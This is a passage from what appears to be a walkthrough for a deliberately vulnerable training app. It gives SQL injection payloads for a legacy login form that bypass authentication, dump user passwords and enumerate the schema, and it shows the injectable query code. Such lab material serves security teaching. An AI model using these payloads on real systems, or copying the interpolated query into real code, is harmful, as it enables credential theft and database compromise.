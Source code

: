 **Step 3: Extract User Data**
1. Clear the form and try a different payload
2. In the username field, enter: `admin' UNION SELECT id,username,password,email,role,created_at,updated_at FROM users --`
3. In the password field, enter: `anything`
4. Click "Login to Legacy System"
5. Observe the response contains all user data including passwords

**Step 4: Database Schema Enumeration**
1. Clear the form and try another payload
2. In the username field, enter: `admin' UNION SELECT table_name,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_schema='wcorp_db' --`
3. In the password field, enter: `anything`
4. Click "Login to Legacy System"
5. Observe the database schema information

**Step 5: Advanced Data Extraction**
1. Try extracting specific sensitive data:
   ```
   Username: admin' UNION SELECT id,username,password,email,role,created_at,updated_at FROM users WHERE role='admin' --
   Password: anything
   ```

**Step 6: Test with Different Payloads**
1. Try these additional payloads:
   ```
   Username: ' OR '1'='1' --
   Password: anything
   
   Username: admin'--
   Password: anything
   
   Username: admin' OR 1=1#
   Password: anything
   ```

**Impact:**
- Authentication bypass
- Data extraction
- Database schema enumeration
- Potential remote code execution
- Complete database compromise

**Vulnerable Code Pattern:**
```javascript
// Raw SQL query without prepared statements
const sql = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
const [results] = await db.execute(sql);
```

---

### A05 - Security Misconfiguration
